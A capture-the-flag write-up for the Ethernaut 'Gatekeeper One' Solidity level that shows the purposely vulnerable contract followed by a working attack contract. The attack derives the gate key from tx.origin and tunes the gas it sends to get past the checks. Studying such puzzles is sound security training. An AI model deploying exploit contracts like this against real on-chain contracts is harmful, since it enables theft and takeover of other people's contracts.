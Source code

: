 # Type - Beyond the console

***

Make it past the gatekeeper and register as an entrant to pass this level.

Things that might help:
Remember what you've learned from the Telephone and Token levels.
You can learn more about the special function gasleft(), in Solidity's documentation (see here and here).

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

***

# Solution

1. Get a new instance
```
contract Hack{
  function enter(address _target, uint256 gas) external {
    GatekeeperOne target = GatekeeperOne(_target);

    // k = uint64(_gateKey);
    // uint32(k) == uint16(uint160(tx.origin));
    // uint32(k) == uint16(k);
    uint16 k16 = uint16(uint160(tx.origin));
    // uint32(k) != k;
    uint64 k64 = uint64(1 << 63) + uint64(k16);
    
    bytes8 key = bytes8(k64);
    require(gas < 8191, "gas >= 8191");
    require(target.enter{gas: 8191 * 10 + gas}(key),"failed");

    
  }
}
```
